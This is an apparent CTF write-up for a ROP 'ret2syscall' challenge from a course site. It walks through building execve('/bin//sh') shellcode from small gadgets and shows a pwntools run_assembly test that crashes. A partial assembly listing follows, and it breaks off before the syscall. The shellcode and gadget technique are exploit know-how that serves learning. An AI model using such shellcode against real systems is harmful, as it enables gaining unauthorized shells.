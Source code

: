 # 0x02 ret2syscall

Subject: [ROP](https://bamboofox.cs.nctu.edu.tw/courses/1/challenges/4)

This problem is just like ret2syscall, we should use the little gadgets to construct the syscall rop chain:

1. We should use `xor eax, eax` instruction to initialize eax and other registers.
2. Some tricks is needed to add eax and mov ebx.
3. It's a good idea to keep the balance of the stack at all times.

By the way, we can use the [run_assembly](https://docs.pwntools.com/en/stable/runner.html) function to test shellcode or debug the tmp elf file:

```python
>>> p = run_assembly("push 0x68732f6e; push 0x69622f2f; pop ebx; pop ebp; xor eax,eax; push eax; push eax; push eax; pop edx; pop ecx; pop edx; push 0x68732f6e; push 0x69622f2f; push esp; push ebp; add ecx,eax; pop ebx; add ecx,eax; pop ebx; push 1; push 2; sub ecx,eax; pop ebp; push eax; pop ecx; pop eax; add eax,0x2; add eax,0x2; add eax,0x2; add eax,0x2; add eax,0x2; int 0x80; pop ebp; pop edi; pop esi; pop ebx")
[*] '/tmp/pwn-asm-jb2ROI/step3'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
[x] Starting local process '/tmp/pwn-asm-jb2ROI/step3'
[+] Starting local process '/tmp/pwn-asm-jb2ROI/step3': pid 15223
>>> p.sendline('echo Hello')
[*] Process '/tmp/pwn-asm-jb2ROI/step3' stopped with exit code -11 (SIGSEGV) (pid 15223)
```

After debugging the system call string problem, the shell is coming:

```shell
======Your code=====
global  _start
section .text
_start:
	push 0x68732f6e
	push 0x69622f2f
	pop ebx
	pop ebp
	xor eax,eax
	push eax
	push eax
	push eax
	pop edx
	pop ecx
	pop edx
	push eax
	push 0x68732f6e
	push 0x69622f2f
	push esp
	push ebp
	add ecx,eax
	pop ebx
	add ecx,eax
	pop ebx
	push 1
	push 2
	sub ecx,eax
	pop ebp
	push eax
	pop ecx
```